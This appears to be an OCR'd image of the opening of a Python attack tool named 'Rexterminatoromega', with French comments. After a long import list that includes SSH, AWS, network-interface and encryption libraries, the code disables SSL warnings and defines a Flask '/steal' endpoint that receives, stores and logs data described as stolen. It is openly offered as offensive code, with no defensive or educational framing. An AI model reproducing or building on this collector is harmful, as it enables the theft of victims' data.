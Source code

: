 # Rexterminatoromega
import requests
import subprocess
import threading
import time
import random
import string
import base64
import json
import xml.etree.ElementTree as ET
from urllib.parse import urljoin, urlparse
import re
import sys
import pandas as pd
import numpy as np
from bs4 import BeautifulSoup
from scrapy.crawler import CrawlerProcess
from scrapy.spiders import Spider
from sklearn.ensemble import RandomForestClassifier
from sklearn.model_selection import train_test_split
from sklearn.metrics import accuracy_score
import torch  # Utilisé uniquement pour des calculs de base, pas pour le modèle GenerativeAI
from flask import Flask, request
import paramiko
import netifaces
import psutil
import socket
import os
import aiohttp
import boto3
from cryptography.fernet import Fernet
import asyncio
import sqlite3
from multiprocessing import Pool
import logging

# Désactiver les warnings SSL
requests.packages.urllib3.disable_warnings()

# Serveur Flask pour capter les données volées
app = Flask(__name__)
stolen_data = []

@app.route('/steal', methods=['GET', 'POST'])
def steal():
    data = request.args.get('data', '') or request.form.get('data', '')
    stolen_data.append(data)
    logging.info(f"Stolen data received: {data}")
    return "OK"
